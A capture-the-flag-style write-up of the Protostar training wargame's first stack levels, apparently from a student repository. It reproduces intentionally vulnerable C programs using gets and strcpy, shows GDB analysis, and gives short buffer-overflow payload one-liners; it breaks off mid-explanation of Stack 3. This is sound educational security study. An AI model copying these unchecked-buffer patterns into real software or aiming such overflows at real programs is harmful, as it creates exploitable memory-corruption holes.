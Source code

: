 # Protostar Exploits Writeups.

[Link](https://exploit.education/protostar/)


After setting up the Protostate we can connect to it using the ssh on our localhost and can go into the /bin/sh shell.
![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/7c4443a6-6d96-4910-ad98-ae14744bd6ec)

> Username: user
> 
> Password: user


## Stack 0

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

So in this program we have to basically modify the value to the variable "modified" and run the code so that the part to code that is not desirable to run can be run.

we know that the gets function is a buggy function we can also check into the man page.

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/b09a466e-8aeb-401a-b8cc-ce6f72bb32b0)

using the gets function we can overwrite the stack as we cannot control the input size of the gets function it continues to take the input.

lets check into the disassebly code and check for the stack.
opening the program in GDB and disassemblying the main function.

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/132f6a48-4850-4114-adbe-100440e9c3a3)

setting the break pointer and runneing the code with sample input and cheking for the registers value we can clearly see that the buffer value starts from the 0xbffff76b to 0xbffff7ab and the next 4 bytes that are for the modified variable are kept to 0 also we can see that it follows little endian format.

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/945028f6-d348-4d4a-a609-2341ea2ee30d)

so basically we have to write a byte array that is larger than ```0xbffff7ab - 0xbffff76b = 64``` to over flow into the next variable.

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/60904dff-8466-4db6-9ba9-fcc8964a9c4d)

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/11d9aa2d-08a1-49ab-b08f-6aa1d4fcb855)

and are we are done.

we can also use the following script to do so.


```sh
python -c "print('A'*65)" | ./stack0
```

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/f25cbdd7-cbc2-4e9b-b7b8-7fe698380bbe)



## Stack 1

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/ab8c5ba8-f209-480a-a268-7453baaf19c5)

Source Code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

This program is bit similar to previous one but this time we have to change to value to modified variable to something particualar given to us. ```0x61626364``` also the busffer variable is set with teh strcpy function which functions as similar in buffer overflow.
applying the previous trick to get the buffer over flow in modified variable. the size of buffer is of 64 bytes and next 4 bytes for the buffer overflow into modified variable.


opening it in gdb and imputing the overflow array.

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/6df0d495-d1ac-47d3-98f5-6f71e01e417e)

here we successfully changed the value of the modified variable to the required value.

we can also use following code snippit to do it

```sh
./stack1 $(python -c "print('A'*64+'\x64\x63\x62\x61')")
```

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/1546931c-e777-4035-8358-ea48970ff069)



## Stack 2

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/a2a8cd1f-ce27-40be-89c9-f39aadf0045b)

Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
in this we have to define a path variable to take the input from and thus resulting into the overflow of the buffer variable.
this is similar to the previous stack challenge just we have to inject using the environment variable.

we can use the following script to do so.

```sh
GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'") ./stack2
```

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/dde77294-1d9e-4996-9f27-6e42bf3791a7)


## Stack 3

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/3c58b8bc-eec7-4f0f-8701-2978eb1c3ede)

Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Now by using the same concept of buffer overflow we have to call the function win that is just defined in our code but is not called.
to do so we have to overlook for the stack and how is the function is called using the stacks.

![image](https://github.com/nikunjagarwal17/CSOC-IITBHU/assets/144536875/1c5e3932-bce8-44b1-bddf-7bdefb0deb95)

So basically when a fucntion is called the return address is placed into the stack so that it knows from where to start when the function returns. so what if we change the value of the return address to something that we wanted. i.e. the address of the win function so when the function retunr it gets to the function call.










